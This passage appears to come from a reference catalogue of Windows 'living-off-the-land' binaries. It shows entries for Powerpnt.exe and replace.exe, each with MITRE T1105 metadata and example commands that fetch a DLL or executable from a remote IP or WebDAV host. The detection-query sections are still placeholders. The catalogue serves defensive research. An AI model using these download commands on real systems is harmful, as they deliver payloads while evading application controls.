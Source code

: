  

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`Powerpnt.exe &#34;http://192.168.1.10/TeamsAddinLoader.dll&#34;`|Downloads payload from remote server|


 

#### Search Queries


> Analytic Goes Here!


 
## Replace.exe

Used to replace file with another file

#### Metadata

|Details||
|-------|---|
|**MITRE ATT&CK Technique IDs**|<div style="text-align: left"><ul><li>T1105</li></ul></div>|
|**Categories**|<div style="text-align: left"><ul><li>Copy</li><li>Download</li></ul></div>|
|**Relevant Operating Systems**|<div style="text-align: left"><ul><li>Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10</li></ul></div>|
|**File Paths**|<div style="text-align: left"><ul><li>`C:\Windows\System32\replace.exe`</li><li>`C:\Windows\SysWOW64\replace.exe`</li></ul></div>|
|**Code Samples**|<div style="text-align: left"><ul><li>None</li></ul></div>|
|**Acknowledgements**|<div style="text-align: left"><ul><li>elceef (@elceef)</li></ul></div>|
|**Additional Resources**|<div style="text-align: left"><ul><li>https://twitter.com/elceef/status/986334113941655553</li><li>https://twitter.com/elceef/status/986842299861782529</li></ul></div>|

 

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A`|Download/Copy bar.exe to outdir|


 

#### Search Queries


> Analytic Goes Here!


 
## Squirrel.exe
